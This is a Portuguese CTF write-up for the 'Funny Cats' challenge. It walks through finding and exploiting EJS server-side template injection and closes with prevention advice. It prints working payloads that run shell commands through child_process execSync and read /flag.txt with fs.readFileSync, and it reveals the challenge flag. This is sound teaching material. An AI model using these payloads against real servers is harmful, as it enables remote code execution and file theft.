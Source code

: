 
# 🛡️ Write-up CTF: Template Injection do Chapéu de Palha Hacker

## 🐱 Desafio: Funny Cats

> *"Esses gatos escondem algo... Descubra o que é!"*

🔎 **Objetivo:** Encontrar a flag no caminho `/flag.txt`.  
🌐 **Link de Acesso:** [funny-cats.chapeudepalhahacker.club](https://funny-cats.chapeudepalhahacker.club/)  
📁 **Dica:** A flag está escondida nos cantos mais inesperados... ou nem tanto.

---

## 📌 Contexto Rápido

| Item                    | Detalhe                                                                 |
|-------------------------|-------------------------------------------------------------------------|
| 🎯 Nome do Desafio       | **Funny Cats**                                                         |
| 🧩 Tema                  | **Template Injection (EJS)**                                           |
| 📍 Local da Flag         | `/flag.txt`                                                            |
| 🌐 URL                  | [https://funny-cats.chapeudepalhahacker.club/](https://funny-cats.chapeudepalhahacker.club/) |
| 💡 Observação Inicial    | O site reflete entradas do parâmetro `name` diretamente no HTML.        |

---

## 🧠 1. Introdução à Vulnerabilidade: Template Injection

### 📚 O que é Template Injection?

**Template Injection** é uma falha que permite a execução de código malicioso ao injetar entradas diretamente em sistemas de template como **EJS**, **Jinja2**, **Twig**, entre outros.

Quando o input do usuário não é tratado corretamente, é possível manipular a lógica do template, acessar funções internas e até executar comandos no servidor.

Exemplo em EJS:

```ejs
<%= 7 * 7 %>  // Renderiza: 49
```

Possível payload malicioso:

```ejs
<%= require('child_process').execSync('id').toString() %>
```

Se o servidor processar isso, o comando `id` será executado diretamente.

---

## 🔍 2. Análise do Desafio

### 🧪 Testes Iniciais

Navegando até a URL:

```
https://funny-cats.chapeudepalhahacker.club/gato?name=alfredo
```

Encontrei no código-fonte HTML:

```html
<!-- alfredo -->
```

Alterando o parâmetro:

```
gato?name=teste123
```

Resultado:

```html
<!-- teste123 -->
```

🚨 **Entrada refletida diretamente em HTML = potencial vulnerabilidade.**

### 🔬 Teste de Template

Enviei:

```ejs
<%= 2 * 2 %>
```

E recebi:

```html
<!-- 4 -->
```

✅ **Confirmação:** Template Injection detectado.  
🧠 **Motor utilizado:** Provavelmente **EJS** (Embedded JavaScript Templates).

---

## ⚔️ 3. Exploração da Vulnerabilidade

### 🔹 Etapa 1: Execução Remota de Código (RCE)

Payload:

```ejs
<%= this.constructor.constructor("return process")().mainModule.require("child_process").execSync("ls /").toString() %>
```

📋 **O que faz?**
- Acessa o objeto `process` via Function constructor.
- Usa `require('child_process')` para executar comandos.
- Executa `ls /` para listar o diretório raiz.

📥 **Resultado:**  
A resposta exibiu os diretórios e arquivos do sistema, incluindo `flag.txt`.

---

### 🔹 Etapa 2: Lendo a Flag

Payload:

```ejs
<%= global.process.mainModule.require('fs').readFileSync('/flag.txt', 'utf8') %>
```

📥 **Resultado final:**  

```html
<!-- flag{w3_l0v3_c4t5} -->
```

🏁 **Flag capturada com sucesso!**

---

## 🧩 4. Lições Aprendidas

### ✔️ Boas Práticas

- **Validação e escape de entrada:** Nunca insira dados do usuário diretamente em templates.
- **Menor privilégio:** Rode o servidor com permissões mínimas.
- **Evite exposição de objetos globais:** Como `require`, `process` e afins.
- **Utilize ambientes sandboxed:** Sempre que possível.

### 🔐 Como prevenir Template Injection?

| Prática                            | Descrição                                                                 |
|------------------------------------|---------------------------------------------------------------------------|
| 🧼 **Sanitização de entrada**        | Escapar caracteres especiais e remover trechos perigosos.                 |
| 🛑 **Evite lógica dinâmica com input** | Não use diretamente dados do usuário na lógica de template.               |
| 🔒 **Restrição do ambiente de execução** | Use sandbox ou limitações no acesso a objetos como `require`, `process`.  |
| 🧱 **Use templates seguros**         | Motores de template com proteções por padrão são preferíveis.             |

---

## 🏁 Conclusão

Esse desafio mostrou como uma simples reflexão de parâmetro pode evoluir para execução de código remoto — tudo devido à falta de tratamento adequado em um motor de template.

🔁 **Resumo da exploração:**
1. Identifiquei o reflexo no HTML.
2. Confirmei que era um motor de template (EJS).
3. Usei payloads para explorar o sistema e capturar a flag.

⚠️ **Lembre-se:** vulnerabilidades como essa podem comprometer um sistema inteiro. Desenvolvedores devem sempre validar inputs, aplicar o princípio de menor privilégio e manter suas dependências atualizadas.

---

🧠 **Desafio vencido!**
